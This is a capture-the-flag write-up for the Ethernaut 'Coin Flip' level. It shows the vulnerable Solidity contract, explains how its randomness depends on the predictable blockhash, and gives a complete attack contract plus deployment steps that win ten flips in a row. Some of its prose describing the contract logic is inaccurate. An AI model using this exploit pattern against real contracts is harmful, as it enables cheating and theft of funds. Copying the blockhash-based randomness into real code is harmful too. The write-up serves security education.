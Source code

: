 <img src="https://ethernaut.openzeppelin.com/imgs/BigLevel3.svg">

# Target Contract Review

Given conract.
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract CoinFlip {

  uint256 public consecutiveWins;
  uint256 lastHash;
  uint256 FACTOR = 57896044618658097711785492504343953926634992332820282019728792003956564819968;

  constructor() {
    consecutiveWins = 0;
  }

  function flip(bool _guess) public returns (bool) {
    uint256 blockValue = uint256(blockhash(block.number - 1));

    if (lastHash == blockValue) {
      revert();
    }

    lastHash = blockValue;
    uint256 coinFlip = blockValue / FACTOR;
    bool side = coinFlip == 1 ? true : false;

    if (side == _guess) {
      consecutiveWins++;
      return true;
    } else {
      consecutiveWins = 0; 
      return false;
    }
  }
}
```

Challenge's message.
>This is a coin flipping game where you need to build up your winning streak by guessing the outcome of a coin flip. To complete this level you'll need to use your psychic abilities to guess the correct outcome 10 times in a row.

We have contract which can increase consecutiveWins with be flying blind. To be more precise, in the **_flip()_** function set a variable call **blockValue** help with keeping the hash of the previous block number as uint256. If lasthash doesn't equal to blockValue, lasthash will be blockValue's value. Afterwards, if blockValue equal to FACTOR which is defined in the start, side variable will be true. Other senarious, side variable will be false. Lastly, if our guess is same with side, consecutiveWins **will be increased**.

## Global Variables in Solidity

In solidity, there are some variables which can call from everyone. **_block.number_** is one of them. In this case, we can access to current block number of chain. Thus, we make always **correct guess**. More about [Global Variables](https://docs.soliditylang.org/en/v0.8.17/units-and-global-variables.html#special-variables-and-functions).

# Subverting

My attack contract.
```solidity
pragma solidity ^0.8.0;

import "./CoinFlip.sol";

contract Attack{

    CoinFlip coinflip;
    uint256 FACTOR = 57896044618658097711785492504343953926634992332820282019728792003956564819968;

    constructor(address _target){
        coinflip = CoinFlip(_target);
    }

    function flip() external{
        uint256 blockValue = uint256(blockhash(block.number - 1));
        uint flip = blockValue/FACTOR;
        bool choice  = flip == 1 ? true : false;
        coinflip.flip(choice);
    }

    function showWins() external view returns(uint){
        return coinflip.consecutiveWins();
    }
}
```
Firstly, get our target contract address. Then set blockValue and choice as in target contract. And then send our guess to flip() function in the target contract.

```shell
await contract.address
'0x24Aa95c4f7bf90BAa33ec67698f5ADc64B0DB551'
```
Deploy an attack contract.

<img src="https://github.com/wasny0ps/Ethernaut-Challenges/blob/main/Challenges/Coin%20Flip/img/deploy.png">

And then, call **flip()** function ten times. After tthat, we will passed this challenge.



**_by wasny0ps_**

